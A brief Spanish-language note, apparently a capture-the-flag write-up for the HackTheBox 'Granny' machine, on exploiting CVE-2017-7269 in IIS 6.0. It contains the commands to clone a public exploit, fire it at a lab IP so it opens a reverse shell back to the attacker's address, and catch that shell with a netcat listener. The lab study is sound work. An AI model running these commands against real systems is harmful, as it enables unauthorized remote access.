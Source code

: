 #CVE-2017-7269

-----

Se necesita la version microsoft-IIS 6.0 como se puede ver en la foto
![[Granny5.png]]

-----

Con [[git clone]] usamos el comando `git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269` para descargar el repositorio, despues con [[cd]] usamos `cd iis6-exploit-2017-CVE-2017-7269` y luego con ``python2.7 iis6\ reverse\ shell 10.10.10.15 80 10.10.16.15 443`` vamos a mandarnos la [[Reverse shell]] mientras estamos en escucha con [[rlwrap nc -lvnp 443]]


![[Granny6.png]]

![[Granny7.png]]
Ya ganamos acceso a la maquina